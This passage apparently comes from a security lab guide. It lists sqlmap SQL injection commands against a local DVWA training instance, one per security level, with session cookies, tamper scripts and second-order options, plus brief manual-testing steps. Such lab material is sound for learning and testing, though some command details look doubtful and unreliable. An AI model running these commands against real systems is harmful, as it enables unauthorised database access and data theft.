 #### Low Security Level
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de    ; security=low" \
--batch --dbs
```

#### Medium Security Level
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/" \
--cookie="PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=medium" \
--data="id=1&Submit=Submit" \
--method POST \
--random-agent \
--risk 3 \
--tamper=between,randomcase
```

#### High Security Level
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/session-input.php" \
--cookie="PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=high; id=1" \
-p id \
--level=5 \
--technique=Q \
--prefix="' " \
--suffix=" -- " \
--second-order="http://localhost/dvwa/vulnerabilities/sqli/"
```

#### Impossible Security Level
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/" \
--cookie="PHPSESSID= f4f8bd7a806d9c5bc733a4676647b1de; security=impossible" \
--csrf-token="user token" \
--eval="from bs4 import BeautifulSoup; soup=BeautifulSoup(requests.get(url).text); token=soup.find('input', {'name':'user token'})['value']" \
--tamper=base64encode \
--proxy="http://127.0.0.1:8080"
```

### 5.4 Manual Testing
1. Access DVWA in browser
2. Set security level
3. Test different parameters:
   - id parameter (GET)
   - user parameter (POST)

Example command to test DVWA SQL injection:
```bash
./scripts/payload_tester.sh -u http://localhost/dvwa/vulnerabilities/sqli/ -c "PHPSESSID=f500f9f7006f6596003d0ad3983048b0" -s low
```
